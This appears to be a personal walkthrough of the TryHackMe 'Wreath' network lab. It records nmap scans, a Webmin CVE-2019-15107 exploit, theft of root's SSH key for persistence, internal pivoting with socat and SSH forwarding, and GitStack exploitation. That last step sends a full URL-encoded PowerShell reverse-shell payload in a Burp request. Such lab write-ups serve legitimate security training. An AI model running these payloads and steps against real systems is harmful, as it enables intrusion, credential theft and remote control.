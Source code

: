 link: https://tryhackme.com/room/wreath
<code><h2>Enumaration PublicFacing Webserver </h2>
┌──(duke㉿kali)-[~/Documents/THM_Wreath]
└─$ nmap -sV -sC -Pn 10.200.85.200
Starting Nmap 7.92 ( https://nmap.org ) at 2024-01-24 05:31 CST
Nmap scan report for 10.200.85.200
Host is up (0.53s latency).
Not shown: 920 filtered tcp ports (no-response), 75 filtered tcp ports (host-unreach)
PORT      STATE  SERVICE    VERSION
22/tcp    open   ssh        OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 9c:1b:d4:b4:05:4d:88:99:ce:09:1f:c1:15:6a:d4:7e (RSA)
|   256 93:55:b4:d9:8b:70:ae:8e:95:0d:c2:b6:d2:03:89:a4 (ECDSA)
|_  256 f0:61:5a:55:34:9b:b7:b8:3a:46:ca:7d:9f:dc:fa:12 (ED25519)
80/tcp    open   http       Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1c)
|_http-title: Did not follow redirect to https://thomaswreath.thm
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1c
443/tcp   open   ssl/http   Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1c)
|_ssl-date: TLS randomness does not represent time
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Thomas Wreath | Developer
| ssl-cert: Subject: commonName=thomaswreath.thm/organizationName=Thomas Wreath Development/stateOrProvinceName=East Riding Yorkshire/countryName=GB
| Not valid before: 2024-01-24T10:54:15
|_Not valid after:  2025-01-23T10:54:15
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1c
9090/tcp  closed zeus-admin
10000/tcp open   http       MiniServ 1.890 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 115.90 seconds

<b>Service Webmin is vulnarable</b>
link: https://github.com/MuirlandOracle/CVE-2019-15107

use exploit to get reverse shell

<b>download /root/.ssh/id_rsa to get pernament access via ssh</b>

┌──(duke㉿kali) [/Documents/THM_Wreath]
└─$ cp id_rsa root                        
┌──(duke㉿kali) [/Documents/THM_Wreath]
└─$ chmod +600 root 
┌──(duke㉿kali) [/Documents/THM_Wreath]
└─$ ssh -i root root@10.200.85.200
[root@prod-serv ~]# id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
[root@prod-serv ~]# 

<h2>Enumaration/Pivoting </h2>
run linpeas
╔══════════╣ Mails (limit 50)
 13718632      0 -rw-rw----   1  twreath  mail            0 Nov  7  2020 /var/mail/twreath                          
 12674676      0 -rw-rw----   1  dheenaxe mail            0 Jan 25 07:58 /var/mail/dheenaxe
 13718632      0 -rw-rw----   1  twreath  mail            0 Nov  7  2020 /var/spool/mail/twreath
 12674676      0 -rw-rw----   1  dheenaxe mail            0 Jan 25 07:58 /var/spool/mail/dheenaxe

 [root@prod-serv ~]# netstat -a
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 0.0.0.0:hostmon         0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:ndmp            0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:ssh             0.0.0.0:*               LISTEN     
tcp        0     36 ip-10-200-85-200.eu:ssh ip-10-50-86-201.e:52266 ESTABLISHED
tcp        1      0 ip-10-200-85-200.e:ndmp ip-10-50-86-177.e:50390 CLOSE_WAIT 
tcp        0      0 ip-10-200-85-200.:52180 ip-10-50-8:search-agent ESTABLISHED
tcp        0      0 ip-10-200-85-200.:56776 ip-10-50-86-177.e:https ESTABLISHED
tcp        1      0 ip-10-200-85-200.e:ndmp ip-10-50-86-231.e:58264 CLOSE_WAIT 

[root@prod-serv ~]# arp -a
ip-10-200-85-150.eu-west-1.compute.internal (10.200.85.150) at 02:1a:65:6e:5d:1f [ether] on eth0
ip-10-200-85-100.eu-west-1.compute.internal (10.200.85.100) at 02:35:7b:8f:3a:af [ether] on eth0
ip-10-200-85-1.eu-west-1.compute.internal (10.200.85.1) at 02:16:e7:43:1c:11 [ether] on eth0

[root@prod-serv ~]# for i in {1..255}; do (ping -c 1 10.200.85.${i} | grep "bytes from" &); done
64 bytes from 10.200.85.1: icmp_seq=1 ttl=255 time=0.293 ms
64 bytes from 10.200.85.200: icmp_seq=1 ttl=64 time=0.051 ms
64 bytes from 10.200.85.250: icmp_seq=1 ttl=64 time=0.574 ms

[root@prod-serv tmp]# ./nmap-dukeofnero -sP 10.200.85.0/24

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2024-01-29 09:39 GMT
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for ip-10-200-85-1.eu-west-1.compute.internal (10.200.85.1)
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (-0.15s latency).
MAC Address: 02:16:E7:43:1C:11 (Unknown)
Nmap scan report for ip-10-200-85-100.eu-west-1.compute.internal (10.200.85.100)
Host is up (0.00047s latency).
MAC Address: 02:E4:55:CA:F3:1B (Unknown)
Nmap scan report for ip-10-200-85-150.eu-west-1.compute.internal (10.200.85.150)
Host is up (0.00046s latency).
MAC Address: 02:E9:87:C5:9E:21 (Unknown)
Nmap scan report for ip-10-200-85-250.eu-west-1.compute.internal (10.200.85.250)
Host is up (0.00032s latency).
MAC Address: 02:C4:B2:A9:1F:37 (Unknown)
Nmap scan report for ip-10-200-85-200.eu-west-1.compute.internal (10.200.85.200)
Host is up.
Nmap done: 256 IP addresses (5 hosts up) scanned in 4.78 seconds

[root@prod-serv tmp]# ./nmap-dukeofnero  10.200.85.100

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2024-01-29 09:40 GMT
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Stats: 0:02:00 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 96.42% done; ETC: 09:42 (0:00:04 remaining)
Nmap scan report for ip-10-200-85-100.eu-west-1.compute.internal (10.200.85.100)
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (-0.20s latency).
All 6150 scanned ports on ip-10-200-85-100.eu-west-1.compute.internal (10.200.85.100) are filtered
MAC Address: 02:E4:55:CA:F3:1B (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 124.55 seconds
[root@prod-serv tmp]# ./nmap-dukeofnero  10.200.85.150
Host is up (0.00056s latency).
Not shown: 6146 filtered ports
PORT     STATE SERVICE
80/tcp   open  http
3389/tcp open  ms-wbt-server
5357/tcp open  wsdapi
5985/tcp open  wsman
MAC Address: 02:E9:87:C5:9E:21 (Unknown)

<h2> Port forwarding </h2>
┌──(duke㉿kali)-[~/Documents/THM_Wreath]
└─$ ssh -L 23456:10.200.85.150:80  -i root root@10.200.85.200 -N

or using socat 

┌──(duke㉿kali)-[~]
└─$ socat tcp-l:18801 tcp-l:18800,fork,reuseaddr
[root@prod-serv tmp]# ./socat-dukeofnero tcp:10.50.86.201:18801 tcp:10.200.85.150:80,fork &

<h2>Task 20  Git Server Exploitation </h2>

On 10.200.85.200 PublicFacing Webserver run listener
[root@prod-serv tmp]# firewall-cmd --zone=public --add-port 23456/tcp
success
[root@prod-serv tmp]# nc -lvnp 23456

via Python RCE exploit for version 2.3.10 gitstack send exploit and reverse shell (43777.py)

Burp suit send revershell
POST /web/exploit-duke.php HTTP/1.1
Host: 127.0.0.1:23455
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:117.0) Gecko/20100101 Firefox/117.0
Accept: text/html,image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 816

a=powershell%20-nop%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%2710.200.85.200%27%2C23456%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22


 
</code>

